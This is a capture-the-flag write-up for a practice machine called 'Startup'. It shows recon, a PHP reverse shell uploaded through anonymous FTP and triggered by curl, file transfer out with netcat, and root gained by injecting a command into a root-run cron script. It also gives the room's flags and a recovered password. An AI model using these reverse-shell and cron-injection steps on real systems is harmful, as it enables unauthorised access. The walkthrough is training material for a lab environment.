# Startup

--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster, wireshark, pspy64

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.228.144

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

-script SCRIPT: run specified scripts<br>
-sV: probe open ports to determine service/version info
```
nmap --script vuln -sV 10.10.228.144
```



**EXPOSED PORT (SERVICE)**:<br>
    21 (ftp vsftpd 3.0.3)<br>
    22 (ssh OpenSSH 7.2p2),<br>
    80 (http Apache httpd 2.4.18)

Anonymous login allowed to ftp server

Enumerate hidden directories on webserver
```
gobuster dir -u http://10.10.228.144 -w /usr/share/dirb/wordlists/common.txt
```



Directory of Interest: /files



10.10.228.144/files is hosting ftp

potential username found in notice.txt: maya

image found that could have hidden data<br>

See if there is anything hidden in important.jpg
```
binwalk important.jpg
steghide extract -sf important.jpg
```

nothing interesting found

### 2. REVERSE SHELL

Copy php reverse shell and edit IP
```
cp /usr/share/webshells/php/php-reverse-shell.php .
```



Upload php reverse shell to ftp server<br>
the /ftp directory has open permissions so we can upload to there 
```
ftp anonymous@10.10.228.144
put php-reverse-shell.php
```



Start listener
```
nc -lnvp 1234
```

Activate the php reverse shell
```
curl http://10.10.228.144/files/ftp/php-reverse-shell.php
```



```
cat recipe.txt
```


**SECRET INGREDIENT**: love

```
cd incidents
```

Found pcap file



Transfer to host machine

Start listener
```
nc -lnvp 4444 > file.pcapng
```

Send file
```
nc -v 10.10.228.144 4444 < suspicious.pcapng
```

### 3. WIRESHARK

Open pcap file in wireshark



Someone started a reverse shell to 192.168.22.139:4444

Also found password



**PASSWORD**: c4ntg3t3n0ughsp1c3

### 4. PIVOT

user lennie in /home directory

SSH as lennie
```
ssh lennie@10.10.228.144
```



**USER FLAG**: THM{03ce3d619b80ccbfb3b7fc81e46c0e79}

### 5. PRIVILEGE ESCCALATION

check privileges
```
sudo -l
```

No sudo privileges

Found potential script we could exploit



planner.sh is owned by root and executes /etc/print.sh<br>
lennie owns print.sh so we can inject or own code into it

Check for cronjobs executed by root<br>
Get pspy64 from https://github.com/DominicBreuker/pspy and transfer to lennie
```
scp pspy64 lennie@10.10.228.144:/home/lennie/pspy64
```

Run pspy64
```
chmod +x pspy64
./pspy64
```



planner.sh is being executed by root every minute

Edit print.sh and exfiltrate files in /root<br>
-R recursively apply permissions
```
echo "chmod -R 777 /root" >> /etc/print.sh
```

This will give /root and all its contents open permissions



**ROOT FLAG**: THM{f963aaa6a430f210222158ae15c3d76d}

